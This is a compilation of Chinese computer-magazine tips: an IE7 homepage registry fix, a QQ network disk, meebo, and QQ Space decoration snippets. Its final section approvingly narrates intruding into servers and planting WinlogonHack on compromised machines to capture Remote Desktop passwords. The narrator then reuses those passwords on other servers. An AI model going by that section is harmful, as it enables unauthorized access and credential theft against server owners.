



通过 Internet 选项里的主页设置还是无济于事，第三方软件设置都无法让主页恢复成朋友想要的“about:blank”。

问题的解决：根据以前的经验给出了 2 种关于 IE7.0 个性化设置页面无法完成设置问题的解决方法。

### 方法一：修改组策略

依然单击开始—运行，输入 gpedit.msc，打开“组策略”。如图2，然后找到“用户配置—管理模板—Windows Components—Internet Explorer”，在它的右边栏中找到“启动执行首次运行自定义设置”，如图3，并双击它，在打开的新窗口中选择“已启用”，在下面的“选择您的选择”栏中选择“直接转到‘欢迎使用 IE’页面”，如图4，确定退出就 OK 了。现在再运行一下 IE7.0，出现了可爱的“about:blank”了，呵呵。

### 方法二：修改注册表

新建一个文本文件，将下面内容复制并保存为 .reg 文件。

```reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main]
"RunOnceComplete"=dword:00000001
"RunOnceHasShown"=dword:00000001
```

双击运行该 reg 文件即可，然后重新启动 IE7 即可重新打开个人的初始设置页面了。如果你的系统是正版的话，可直接打开 IE7.0 个人设置这个网页（http://runonce.msn.com/runonce2.aspx）设置一下，问题也可以解决。

编辑点评：现在估计很多朋友都在试用传说中的 IE7 了吧？估计很多用户都遇到文章提到的问题吧？文字对你有帮助吗？

## 免费无限大 极速网络硬盘

就是极速的条件。

现在我们就来免费体验一下吧！

准备工具：一张移动手机卡；一个作为储存用的 QQ 号；登录 QQ，打开网络硬盘。如图1。如果是第一次使用网络硬盘，则需要免费开通一下，如图2。打开后的网络硬盘如图3。这个网络硬盘只有 16M 大小（如图3中所示），并且限制了单个文件大小。单击“升级”，如图3中 2 所示，弹出如图4界面。点击“容量增加到 512M”，支持用手机短信方式扩充“订购类型”或者“网络硬盘”。

击“下一步”，进入如图5所示的页面。点击图中的红色字体“获取随机密码”，稍等片刻将接收到验证码，填写到“短信确认”内，继续填写附加信息，单击“下一步”。如果一切正常，手机上会发出收到几条信息的提示音，网页上则提示你已成功。现在你的 QQ 号就拥有 512M 的网络硬盘了。

打开共享方法：获取的 QQ 号码及这个 QQ 的好友，在“我的共享文件夹”上单击右键，选择“设定共享”，选择你要共享的 QQ 号就可以了。

最后记得注意的事情：

- 开通后一定要在 72 小时内进行使用，否则视为被收回。
- 填写网络硬盘有很多功效，比如你收到文件链接，将你的文件放在网络上就可以引用它们了。
- 建立后不要搁置，我发现好地方就想改用，就没有及时打开它。24 小时过后才开启，就没有了。
- 一定要加密呀，还可以放一些私密文件共享。后来：这个方法是我一直在用的，绝对真实免费。不过我不保证不会变成收费的方法。





## 用 meebo 来登 QQ

从本文你就可以学到：通过 meebo 登录 QQ。

笔者在网上冲浪正 high，好友发来信息，要求和我视频，如图1。什么东东？笔者好奇心本来就重，于是便有了本文。按照图1中的链接来到 www.imtata.com，没想到转接到 meebo.com.cn，有点小郁闷。

不过凭借全开放 meebo 网页，笔者还是忍不住暗喜了下，如图2。这不是前段时间闹得一塌糊涂的 WebQQ 吗？





什么是 WebQQ？

与传统的移动 QQ 相比，WebQQ 是基于 Web 浏览器的 IM 服务。它不需要下载 QQ 客户端，即可在 Web 浏览器中收发消息。更值得一提的是，WebQQ 可实现跨平台的即时通讯。

测试下，嘿嘿，成功发送消息。

缺点：必须注册成为 meebo 用户才可以进行用户设置。添加好友只能通过输入好友号码添加，没有在线查找功能。除了登录 QQ，meebo 还可以登录 MSN。

meebo 网页有 mewee、meeme，我们也来了解一下。

mewee 是一款网页版聊天式群聊即时通讯产品，试图轻松拥有强大的在线聊天室。无需下载任何客户端软件，只需免费注册 meebo 账号并定制聊天信息，把获取到的代码嵌入到论坛、博客、空间或网页适当位置，就可以建立属于自己网站的聊天室。

meeme 是一款网页版聊天室式即时通讯产品，网站的访客可以在线与站点管理员沟通，管理员也可以主动和访客聊天。meeme 很像邮件提醒，与好友私聊再合适不过了。

您无需下载任何客户端软件，只需免费注册 meebo 账号并定制聊天信息，把获取到的代码嵌入到论坛、博客、空间或网页适当位置。这 2 种功能都可以作为站长的得力帮手，大家试试就晓得啦。

编辑点评：

说起这样的 WebQQ，还是觉得它不错，毕竟 WebQQ 不像 QQ 一样占用那么多的资源。不过这 TX 为什么要关闭它？现在，我们终于找到替代品了。







## 垃圾文件清除

QQ 上久了，和别人聊久了，不免会接收到不少垃圾或者其它不必要的东西，这款软件可以把这些垃圾全部删除，不过



## 最新 QQ 空间代码

1 月 9 号 TX 更新了空间，封杀了很多空间代码，让菜鸟们伤了心，又没得换啦，所以数位高手横空再出世，抛给众多菜菜！但因为 TX 的不断更新，很可能导致下面的一些代码无法使用，想要的快来抢吧（全文于 2 月 10 日可用）……

### 最新皮肤代码

```javascript
静悄悄 javascript:window.top.space_addItem(1,8669,100,100,100,94);
最爱的花 javascript:window.top.space_addItem(1,4693,0,80,0,0,94);
```

### QQ 边框代码

```javascript
黑色相册边框 javascript:window.top.space_addItem(16,23235,300,80,420,420,0);
LOVE HOME javascript:window.top.space_addItem(16,23211,330,80,600,600,0);
蝶影 javascript:window.top.space_addItem(16,23215,330,80,600,600,0);
love 瞳 javascript:window.top.space_addItem(16,23227,330,80,600,600,0);
纯纯爱恋 javascript:window.top.space_addItem(16,23229,330,80,600,600,0);
下雪了 javascript:window.top.space_addItem(16,23699,330,80,600,600,0);
```

### QQ 空间导航代码

```javascript
清甜爽口 javascript:window.top.space_addItem(13,4384,0,0,150,700,0);
流金岁月 javascript:window.top.space_addItem(13,5330,0,0,150,700,0);
摘星 javascript:window.top.space_addItem(13,5145,0,0,150,700,0);
深海梦境 javascript:window.top.space_addItem(13,5003,0,0,150,700,0);
坚韧的导航 javascript:window.top.space_addItem(13,1,100,80,0,0,94);
心爱花藤 javascript:window.top.space_addItem(13,9114,0,0,200,600,0);
```

### QQ 空间鼠标代码

```javascript
色狼 javascript:window.top.space_addItem(4,5535,0,0,1,1,0);
蜻蜓少年 javascript:window.top.space_addItem(4,5837,0,0,1,1,0);
丑 javascript:window.top.space_addItem(4,4966,0,0,1,1,0);
老鹰 javascript:window.top.space_addItem(4,1151,0,0,1,1,0);
```

### QQ 空间播放器代码

```javascript
旋律 javascript:window.top.space_addItem(6,1228,0,0,200,200,0);
茶色 javascript:window.top.space_addItem(6,702,0,0,200,200,0);
水晶年代 javascript:window.top.space_addItem(6,703,0,0,200,200,0);
```

### 空间漂浮物代码

```javascript
你的希望（彩色） javascript:window.top.space_addItem(5,609,0,0,7,0,1,0);
梦的希望（绿） javascript:window.top.space_addItem(5,609,0,3,0,0,2);
爱情天使（多个） javascript:window.top.space_addItem(5,1097,0,0,4,1,0);
H javascript:window.top.space_addItem(5,1816,0,0,1,1,0);
HAPPY javascript:window.top.space_addItem(5,1816,0,0,5,1,0);
```

### QQ 空间免费挂件代码

```javascript
踢足球 javascript:window.top.space_addItem(2,5797,0,0,1,1,0);
巴西万岁 javascript:window.top.space_addItem(2,5875,0,0,1,1,0);
加油法兰西 javascript:window.top.space_addItem(2,5876,0,0,1,1,0);
崇礼麒麟狮子 javascript:window.top.space_addItem(2,5877,0,0,1,1,0);
为意大利欢呼 javascript:window.top.space_addItem(2,5878,0,0,1,1,0);
我为德国狂 javascript:window.top.space_addItem(2,5879,0,0,1,1,0);
西班牙冲冲冲 javascript:window.top.space_addItem(2,5880,0,0,1,1,0);
英格兰必胜 javascript:window.top.space_addItem(2,5881,0,0,1,1,0);
```

隐蔽珍藏代码，轻松粘走别人模块。无须借助任何工具，盗取别人 QQ 空间的装扮地址，比如图片、FLASH 地址。

```javascript
javascript:document.body.contentEditable='true'; document.designMode='on'; void 0
```

### 使用方法：

首先先将代码复制，打开你想盗取的空间地址，将代码粘贴在地址栏，点击转到。这样你点下对方的日志或什么按钮再返回主页的时候，就可以发现模块上部出现“编辑”了。

## 3389 管理员的噩梦

从本文你可以学到：WinlogonHack 软件的应用介绍。

有次入侵了一台服务器，拿到了权限，发现管理员通过 3389 管理着多台计算机，所以想对管理员的密码下手。第一个思路是在本地抓 SAM 文件，然后用 LC5 试密码，但发现跑出来后成功率很低。第二个思路是通过 ARP 嗅探 3389 UDP 密码，已经成功过了，但 Cain 终究不稳定，而且在肉鸡里进行用户登录可是很危险的，容易暴露自己。第三个思路是用 findpass2003 直接截听，可能是我太菜了，有很多人说在 2003 SP1 中才抓得到，我试过……

带着这个问题想了很久，偶然在某黑客网站上发现了一个软件，叫 WinlogonHack。这个软件在介绍中称是不用重启，当有 3389 登录时，自动加载 Hookmsgina.dll，并且记录登录密码，然后保存为 boot.dat 文件，文件目录为 %systemroot%\system32\。



我马上下载后进行测试，果然抓到了我自己登录的 3389 密码，真的太强了！我马上登录肉鸡，给它们装上了 WinlogonHack。接下来等了大半天，抓了一大堆 3389 密码，如图1所示，哈哈，随便把其他开了 3389 的服务器用抓到的密码进行登录，也成功了，如图2。

